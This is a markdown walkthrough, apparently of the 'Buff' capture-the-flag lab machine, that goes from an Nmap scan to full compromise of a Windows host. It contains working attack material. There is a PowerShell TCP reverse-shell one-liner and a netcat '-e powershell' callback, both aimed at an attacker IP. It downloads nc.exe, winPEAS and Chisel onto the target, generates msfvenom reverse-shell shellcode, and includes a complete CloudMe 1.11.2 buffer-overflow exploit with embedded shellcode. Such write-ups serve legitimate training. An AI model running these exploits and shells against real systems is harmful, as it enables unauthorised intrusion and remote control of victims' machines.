










# Buff

# Following the PTES Framewrok.

1. **Pre-Enagement Interaction**
2. **Intelligence Gathering**
3. **Threat Modeling**
4. **Vulnerability Analysis**
5. **Exploitation**
6. **Post Exploitation**
7. **Reporting**

### Nmap scan

Nmap reveals that the port '8080', visiting the page will load a exercise webpage. 
`Projectworlds.in` It could a project from this site <==
### The contact page shows:
- `mrb3n's Bro Hut`
- `Made using Gym Management Software 1.0 `
From the **index.php** it's clear that the site is build with php.

### Directory Busting
Let's run Gobuster.
```bash
gobuster dir -w words.txt -u http://<ip>
```

## Metasploit
Searching for `Gym Management` on `searchsploit` will give few results.

Using the Remote Code Execution with no Authentication? Sounds interesting so let's try.

copy the file to local directory and use legacy `python2` to run this.
```bash
python2 exploit.py <ip>:8080/
```
we get a shell.


## Priv Esc
The shell above is not presistant, Can't change directories or anuthong. need a better shell. Using Nashing will get more presistance shell. 
Copy the `Invoke-PowerShellTcpOneLine.ps1` to locate directory and change the ip to attacker machine with a port. 



```bash
 $client = New-Object System.Net.Sockets.TCPClient('10.10.16.3',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};whi
       │ le(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,
       │  $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASC
       │ II).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Now let's set up a python3 server to upload this to the target machine.

```bash
python3 -m http.server
```
### THE ABOVE REVERSE SHELL DID NOT WORK let's go different way.

### Uing nc.exe to get the powershell
Copy the nc.exe to local directory and host with python.
Curl the nc.exe file on the target machine.

```bash
curl 10.10.16.3:6000/nc.exe -o nc.exe
```

Start listening to the on a port

```bash
nc -lvnp 9001
```

On the target machine run the command
```bash
nc.exe 10.10.16.3 9001 -e powershell
```

We have a shell.


Since the shell is more presistenct, Changing the directory is possible.
```bash
PS C:\Users\shaun\Desktop> type user.txt 
type user.txt
9b3c941baed51cee57e9d397964b468e

```

### Runing winPEAS.ps1
Copy the winPEAS.exe to local directory and host then curl to the target machine and run. 

```bash
curl 10.10.16.3:6000/winPEAS.exe
```
Once done uploading, run it `.\winPEAS.exe`
 
 Going through the winpeas output found the CloudMe and search sploit shows that there is a buffer overflow exploit.



### list LISTEING PORTS
```bash
netstat -an
```

## HTTP Tunnel with Chisel 

Download chisel.exe and chisel for linux and transfer the chisel.exe to the target machine.
```bash
curl <kali IP>:port/chisel.exe -o chisel.exe
```

## Run chisel
Cleint (target machien) 
```bash
.\chisel.exe client 10.10.16.3:9002 R:3306:localhost:3306 R:8888:localhost:8888
```

## Kali
```bash
./chisel server --reverse --port 9002
```

On a seprate window run
```bash
nc localhost 8888 or 3306
```
## Connecting to mysql

```bash
mysql -u root -p -h 127.0.0.1 --ssl=0
```
--ssl=0 for Maria db to disable ssl 

```bash
show databases;
use test;
show tables;
```
Looks like all the tables are empty;


## check if there is chisel
```bash
ss -lnpt | grep 3306
```

## List all the payloads
```bash
## Get the msfvenom from the cloudMe exploit that we found
grep -i 'msfvenom' cloudme_exploit.py
msfvenom -l payload
```
Need to create a paylaod and use reverse_shell 
```bash
## kali ip and port to listen on
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=9004 -b '\x00\x0A\x0D' -f python
```


copy the payload and added to the .py cloudMe file replacing the existance code (buffer part)

addd at the end 
```bash
payload=buf
```

Listen on local port 9004 in this case
```bash
nc -lvnp 9004
```
Now run the cloudMe.py exploit (the name was change for the exploit from 48389.py)
```bash
python3 cloudme_exploit.py
```


## Root.txt



```py

#Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -b '\x00\x0A\x0D' -f python
buf =  b""
buf += b"\xd9\xeb\xba\x2a\x18\xb0\x34\xd9\x74\x24\xf4\x5e"
buf += b"\x29\xc9\xb1\x52\x83\xc6\x04\x31\x56\x13\x03\x7c"
buf += b"\x0b\x52\xc1\x7c\xc3\x10\x2a\x7c\x14\x75\xa2\x99"
buf += b"\x25\xb5\xd0\xea\x16\x05\x92\xbe\x9a\xee\xf6\x2a"
buf += b"\x28\x82\xde\x5d\x99\x29\x39\x50\x1a\x01\x79\xf3"
buf += b"\x98\x58\xae\xd3\xa1\x92\xa3\x12\xe5\xcf\x4e\x46"
buf += b"\xbe\x84\xfd\x76\xcb\xd1\x3d\xfd\x87\xf4\x45\xe2"
buf += b"\x50\xf6\x64\xb5\xeb\xa1\xa6\x34\x3f\xda\xee\x2e"
buf += b"\x5c\xe7\xb9\xc5\x96\x93\x3b\x0f\xe7\x5c\x97\x6e"
buf += b"\xc7\xae\xe9\xb7\xe0\x50\x9c\xc1\x12\xec\xa7\x16"
buf += b"\x68\x2a\x2d\x8c\xca\xb9\x95\x68\xea\x6e\x43\xfb"
buf += b"\xe0\xdb\x07\xa3\xe4\xda\xc4\xd8\x11\x56\xeb\x0e"
buf += b"\x90\x2c\xc8\x8a\xf8\xf7\x71\x8b\xa4\x56\x8d\xcb"
buf += b"\x06\x06\x2b\x80\xab\x53\x46\xcb\xa3\x90\x6b\xf3"
buf += b"\x33\xbf\xfc\x80\x01\x60\x57\x0e\x2a\xe9\x71\xc9"
buf += b"\x4d\xc0\xc6\x45\xb0\xeb\x36\x4c\x77\xbf\x66\xe6"
buf += b"\x5e\xc0\xec\xf6\x5f\x15\xa2\xa6\xcf\xc6\x03\x16"
buf += b"\xb0\xb6\xeb\x7c\x3f\xe8\x0c\x7f\x95\x81\xa7\x7a"
buf += b"\x7e\xa4\x3d\x94\x7d\xd0\x43\x94\xa2\x0c\xcd\x72"
buf += b"\xce\x5c\x9b\x2d\x67\xc4\x86\xa5\x16\x09\x1d\xc0"
buf += b"\x19\x81\x92\x35\xd7\x62\xde\x25\x80\x82\x95\x17"
buf += b"\x07\x9c\x03\x3f\xcb\x0f\xc8\xbf\x82\x33\x47\xe8"
buf += b"\xc3\x82\x9e\x7c\xfe\xbd\x08\x62\x03\x5b\x72\x26"
buf += b"\xd8\x98\x7d\xa7\xad\xa5\x59\xb7\x6b\x25\xe6\xe3"
buf += b"\x23\x70\xb0\x5d\x82\x2a\x72\x37\x5c\x80\xdc\xdf"
buf += b"\x19\xea\xde\x99\x25\x27\xa9\x45\x97\x9e\xec\x7a"
buf += b"\x18\x77\xf9\x03\x44\xe7\x06\xde\xcc\x17\x4d\x42"
buf += b"\x64\xb0\x08\x17\x34\xdd\xaa\xc2\x7b\xd8\x28\xe6"
buf += b"\x03\x1f\x30\x83\x06\x5b\xf6\x78\x7b\xf4\x93\x7e"
buf += b"\x28\xf5\xb1"
payload=buf
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)

```
